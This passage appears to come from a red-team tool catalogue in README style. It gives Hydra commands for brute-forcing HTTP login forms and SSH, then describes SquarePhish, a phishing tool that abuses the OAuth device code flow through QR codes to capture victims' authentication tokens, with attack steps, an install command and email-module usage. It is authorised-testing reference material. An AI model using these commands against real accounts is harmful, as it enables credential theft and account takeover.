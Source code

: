 **Usage:**

```bash
hydra -L USER.TXT -P PASS.TXT 1.1.1.1 http-post-form "login.php:username-^USER^&password=^PASS^:Error"
hydra -L USER.TXT -P PASS.TXT 1.1.1.1 ssh
```

![image](https://user-images.githubusercontent.com/100603074/193459614-365876d5-09da-4f29-b850-0480944f0097.png)

### [🔙](#tool-list)[SquarePhish](https://github.com/secureworks/squarephish)

SquarePhish is an advanced phishing tool that uses a technique combining  OAuth Device code authentication flow and QR codes (See [PhishInSuits](https://github.com/secureworks/PhishInSuits) for more about OAuth Device Code flow for phishing attacks).

Attack Steps:

- Send malicious QR code to victim
- Victim scans QR code with mobile device
- Victim directed to attacker controlled server (Triggering OAuth Device Code authentication flow process)
- Victim emailed MFA code (Triggering OAuth Device Code flow 15 minute timer)
- Attacker polls for authentication
- Victim enters code into legit Microsoft website
- Attacker saves authentication token

**Install:** 

```bash
git clone https://github.com/secureworks/squarephish; cd squarephish; pip install -r requirements.txt
```

**Note:** *Before using either module, update the required information in the settings.config file noted with `Required`.*

**Usage (Email Module):**

```
usage: squish.py email [-h] [-c CONFIG] [--debug] [-e EMAIL]

optional arguments:
  -h, --help            show this help message and exit

  -c CONFIG, --config CONFIG
                        squarephish config file [Default: settings.config]

  --debug               enable server debugging

  -e EMAIL, --email EMAIL
                        victim email address to send initial QR code email to
```

**Usage (Server Module):**
